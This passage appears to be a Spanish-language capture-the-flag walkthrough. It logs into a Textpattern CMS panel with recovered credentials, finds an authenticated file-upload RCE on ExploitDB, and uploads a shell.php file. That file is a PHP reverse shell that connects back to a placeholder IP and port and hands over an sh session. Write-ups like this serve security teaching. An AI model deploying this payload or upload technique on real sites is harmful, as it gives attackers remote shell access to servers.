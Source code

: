 Puede ser que sean credenciales para el `login` que nos encontramos anteriormente, por lo que vamos a probar a meterlas.

Veremos que si nos deja y estaremos dentro del panel, pero si vemos que version de `software` tiene este programa, veremos lo siguiente:

<figure><img src="../../.gitbook/assets/image (344).png" alt=""><figcaption></figcaption></figure>

Vamos a probar a buscar un `exploit` para ver si esta version es vulnerable.

Si buscamos un poco veremos que si hay una `vulnerabilidad` asociada a dicho `software`, la cosa es que hay que esta `autenticado` para realizar dicho `exploit` y como lo estamos pues podremos explotarlo.

URL = [ExploitDB RCE Textpattern CMS](https://www.exploit-db.com/exploits/48943)

Vemos que en el codigo la seccion vulnerable es en la subida de archivos, nos tendremos que ir `Content` -> `Files`, dentro de esta seccion subiremos un archivo que sera el siguiente:

> shell.php

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

<figure><img src="../../.gitbook/assets/image (345).png" alt=""><figcaption></figcaption></figure>

Una vez que lo hayamos subido veremos lo siguiente:

<figure><img src="../../.gitbook/assets/image (346).png" alt=""><figcaption></figcaption></figure>
